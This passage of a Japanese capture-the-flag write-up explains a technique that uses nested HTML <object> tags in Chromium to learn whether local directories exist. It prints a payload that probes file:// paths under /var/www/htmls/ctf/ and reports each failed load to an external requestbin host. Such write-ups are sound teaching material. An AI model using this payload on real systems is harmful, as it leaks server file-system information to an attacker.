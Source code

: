 ```html
        <object data="file:///etc/">
            <object data="http://example.com?etc"></object>
        </object>
        <br>
        <object data="file:///omg/">
            <object data="http://example.com?omg"></object>
        </object>
    </body>
</html>
```
これをtest2.htmlとして、Chromiumで開くと以下の通りとなる。  
![test2.png](images/test2.png)  
存在するディレクトリ`file:///etc/`はIndex ofが表示されている。  
一方、存在しないディレクトリ`file:///omg/`は読み込みに失敗しており、その子要素である`http://example.com?omg`が表示されている。  
このリクエストを自身のサーバへ向けることで、オラクルとできないだろうか。  
クエリからどの子要素か判定できるようにしておけば、リクエストの有無を用いてディレクトリの存在をリークできると気づく。  
[リクエストを受信できるサーバ](https://pipedream.com/requestbin)などを利用して、以下のようなa-z0-9のディレクトリ名を探索するHTMLを問題サイトへ送信する。  
```html
<html>
    <object data="file:///var/www/htmls/ctf/a/">
        <object data="https://end6km9xnaufp.x.pipedream.net/?no=file:///var/www/htmls/ctf/a/"></object>
    </object>
    <object data="file:///var/www/htmls/ctf/b/">
        <object data="https://end6km9xnaufp.x.pipedream.net/?no=file:///var/www/htmls/ctf/b/"></object>
    </object>
    <object data="file:///var/www/htmls/ctf/c/">
        <object data="https://end6km9xnaufp.x.pipedream.net/?no=file:///var/www/htmls/ctf/c/"></object>
    </object>
~~~
    <object data="file:///var/www/htmls/ctf/9/">
        <object data="https://end6km9xnaufp.x.pipedream.net/?no=file:///var/www/htmls/ctf/9/"></object>
```